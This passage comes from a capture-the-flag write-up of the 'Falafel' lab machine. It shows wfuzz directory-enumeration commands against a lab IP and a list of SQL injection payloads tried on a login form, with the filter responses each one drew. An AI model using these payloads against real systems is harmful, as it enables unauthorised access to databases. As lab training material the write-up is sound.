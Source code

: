 ```bash
wfuzz -c -t 100 --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.129.229.139/FUZZ
# uploads,images,assets,css,js
wfuzz -c -t 100 --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,php-txt http://10.129.229.139/FUZZ.FUZ2Z
# cyberlaw - txt
```

<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

What I can think of now to bypass the authentication panel is to try some basic **[SQL injections](https://portswigger.net/web-security/sql-injection){:target="_blank"}** to observe some error message. Depending on the message shown on the screen I can understand if an **injection works or not**, but the code must have some kind of sanitization because it does not allow me to use some words, which must be in a **Blacklist**. I already have a way to leak information from the database through an error based **[SQLi](https://portswigger.net/web-security/sql-injection){:target="_blank"}**.

```html
# SQLi Testing:
# http://10.10.10.73/login.php
#      --> admin':admin                                        :)  Try again..
#      --> admin' and sleep(5)-- -:admin                       :(
#      --> ():admin                                            :)
#      --> sleep:admin                                         :(  Hacking Attempt Detected!
#      --> admin' order by 100-- -:admin                       Try again..
#      --> admin' order by 4-- -:admin                         Wrong identification : admin   :)
#      --> admin' order 3-- -                                  :)
#      --> admin' union select 1,2,3,4-- -:admin               :(  Hacking Attempt Detected!
#      --> union:admin                                         :(  Hacking Attempt Detected!
#      -- admin' uNiOn SeLECt 1,2,3,4-- -:admin                :(
#      --> tryotherunionword                                   :( 
```

<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

